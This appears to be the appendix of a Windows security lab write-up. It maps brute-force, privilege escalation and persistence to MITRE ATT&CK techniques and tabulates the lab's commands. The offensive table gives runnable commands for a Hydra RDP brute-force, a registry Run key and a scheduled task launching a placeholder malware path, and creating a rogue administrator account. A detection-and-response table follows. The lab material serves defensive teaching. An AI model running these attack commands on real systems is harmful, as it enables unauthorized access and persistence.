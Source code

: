 <figure><img src="media/82b787b3f005534aadceefe1eeef9c10fc7df9d7.png" alt=""><figcaption></figcaption></figure>

## **4. Appendices**

* Mapping to **MITRE ATT\&CK techniques**:
  * **Brute-force:** T1110
  * **Privilege Escalation:** T1068
  * **Persistence via Registry/Startup/Crontab:** T1547 / T1053
* Commands used in the lab:

## **Windows - Offensive / Attack**

| **Command**                                                                                                     | **Purpose**                                                           |
| --------------------------------------------------------------------------------------------------------------- | --------------------------------------------------------------------- |
| hydra -l administrator -P rockyou.txt rdp://\<windows\_ip>                                                      | RDP brute-force attack from Kali.                                     |
| reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v MaliciousSvc /t REG\_SZ /d "C:\mal\mal.exe" /f  | Create a Registry Run key to achieve persistent on-boot execution.    |
| schtasks /create /sc onlogon /tn "MalSvc" /tr "C:\mal\mal.exe"                                                  | Create a scheduled task that runs at user logon (persistence).        |
| net user new\_user P@ssw0rd /add                                                                                | Create a local user account (example for escalation/persistence).     |
| net localgroup Administrators new\_user /add                                                                    | Add a local user to the Administrators group (privilege escalation).  |

## **Windows - Detection & Response**

| **Command / Action**                                                                                                                                                                                                                        | Purpose                                                                                         |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ----------------------------------------------------------------------------------------------- |
| Get-WinEvent -FilterHashtable @{LogName='Security'; Id=4624} \| Where-Object { $\_.Message -match $ip } \| Select-Object TimeCreated, @{Name='Message';Expression={$\_.Message\}} \| Out-File C:\lab\_logs\4624\_from\_attacker.txt -Force  | Export successful logon events (ID 4624) filtered by attacker IP to a file for analysis.        |
| net user \<username> /active:no                                                                                                                                                                                                             | Disable a suspicious or compromised local account.                                              |
| quser                                                                                                                                                                                                                                       | List current interactive sessions on the host.                                                  |
| logoff \<ID>                                                                                                                                                                                                                                | Terminate a specific interactive session by session ID.                                         |
| (Autoruns GUI)                                                                                                                                                                                                                              | Enumerate Windows startup locations and entries to find persistence mechanisms.                 |
| (Process Explorer GUI)                                                                                                                                                                                                                      | Inspect running processes and their properties for suspicious activity.                         |
| (TCPView GUI)                                                                                                                                                                                                                               | View active TCP/UDP connections and associated processes.                                       |
| (Sysmon installation + Event Viewer)                                                                                                                                                                                                        | Enable and review detailed process/file/network telemetry for detection and forensic analysis.  |
